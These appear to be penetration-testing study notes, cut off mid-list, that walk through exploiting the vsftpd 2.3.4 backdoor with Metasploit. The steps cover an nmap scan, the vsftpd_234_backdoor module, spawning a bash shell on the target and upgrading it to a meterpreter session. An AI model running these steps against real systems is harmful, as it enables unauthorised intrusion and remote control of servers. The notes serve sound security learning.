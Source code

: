 
### Exploiting a vulnerable FTP server 

- port 21 - facilitate file sharing between server and clients 
- transfer files to and from the directory of a web server 
- vsftpd is an FTP server for Unix-like systems including Linux systems and the default FTP server for ubuntu, CentOS and Fedora 
- vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through supply chain attack.

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) perform service detection, operating detection and syn scan: `db_nmap -sS -sV -O ip `
6) `search vsftpd `
7) `use exploit/unix/ftp/vsftpd_234_backdoor `
8) open bash terminal on target system: ` /bin/bash -i `
9) upgrade session to meterpreter session (put other session in background)
	1) `search shell_to_meterpreter` (will upgrade current shell session to meterpreter session)
	2) `use post/multi/manage/shell_to_meterprete`r (this is a post module so you can only use it when you have an active session on the target system)
	3) 